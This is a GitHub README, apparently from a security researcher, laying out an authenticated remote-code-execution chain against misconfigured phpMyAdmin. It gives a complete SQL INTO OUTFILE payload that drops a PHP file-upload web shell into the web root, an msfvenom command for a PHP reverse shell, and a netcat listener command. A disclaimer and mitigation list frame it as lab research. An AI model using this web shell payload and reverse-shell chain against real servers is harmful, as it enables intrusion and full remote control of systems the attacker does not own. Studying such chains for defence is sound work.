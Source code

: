# Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All actions were performed in a controlled lab environment.  
Unauthorized access or exploitation of systems you do not own is illegal and unethical.  
The author is not responsible for any misuse of the information provided here.

---

## 🧠 Overview

This repository demonstrates how an attacker can achieve **authenticated Remote Code Execution (RCE)** in a misconfigured **PhpMyAdmin** setup using the SQL query interface.

By abusing the `SELECT ... INTO OUTFILE` functionality, it is possible to write a malicious PHP web shell to the server's web root. That uploader is then used to upload a reverse shell, leading to complete remote access.

This is **not a new CVE** but rather a misconfiguration and privilege abuse chain.

---

## 📋 Attack Flow

1. Login to PhpMyAdmin with valid credentials
2. Use `SELECT INTO OUTFILE` to write a PHP uploader shell
3. Upload a reverse shell via that uploader
4. Trigger the uploaded shell to receive a reverse connection

---

## ⚙️ Lab Environment

- **Target URL**: `http://192.168.110.189:8080/phpmyadmin/`  
- **PhpMyAdmin Version**: 5.x  
- **OS**: Windows with WAMP (Web Root: `C:/wamp/www/`)  
- **Credentials**: Valid user login  
- **Listener IP**: `192.168.45.206`  
- **Port**: `4444`

---

## 💣 Exploit Commands

### 1. SQL Payload to Drop PHP Uploader

```sql
SELECT "<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">'; 
echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; 
if( $_POST['_upl'] == \"Upload\" ) { 
  if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { 
    echo '<b>Upload Done.</b>'; 
  } else { 
    echo '<b>Upload Failed.</b>'; 
  } 
} ?>" 
INTO OUTFILE 'C:/wamp/www/uploader.php'
```

### 2. Generate Reverse Shell Using msfvenom

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o rev_shell.php
```

### 3. Start Listener

```bash
nc -nlvp 4444
```

---

## 📸 Screenshots

1. **SQL Query to Inject Uploader**  
   ![SQL Injection](./screenshots/sql_query.png)

2. **Accessing Uploader via Browser**  
   ![Uploader Interface](./screenshots/upload.png)

3. **Creating a payload**
    ![Payload](./screenshots/payload.png)

4. **Uploading rev_shell.php**  
   ![Shell Upload](./screenshots/rev_shell_upload.png)

5. **Shell Triggered and Connection Received**  
   ![Reverse Shell](./screenshots/trigger.png)
   
   ![Reverse Shell](./screenshots/reverse_shell.png)

---

## 🔐 Mitigation

- Restrict or disable the `FILE` privilege in MySQL for all web users.
- Set the `secure_file_priv` variable in MySQL to restrict file write paths.
- Prevent public access to PhpMyAdmin.
- Apply proper file system permissions to prevent MySQL from writing to web directories.
- Use a Web Application Firewall (WAF) and monitor logs for suspicious queries.

---

## 📚 References

- [PhpMyAdmin Project](https://www.phpmyadmin.net/)  
- [CyberChef](https://gchq.github.io/CyberChef/)  
- [msfvenom Payloads](https://docs.rapid7.com/metasploit/php-payloads/)

---


## 📝 Related Blog Post

Read the full write-up:  
👉 [Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload](https://medium.com/@sakshi.infosec)


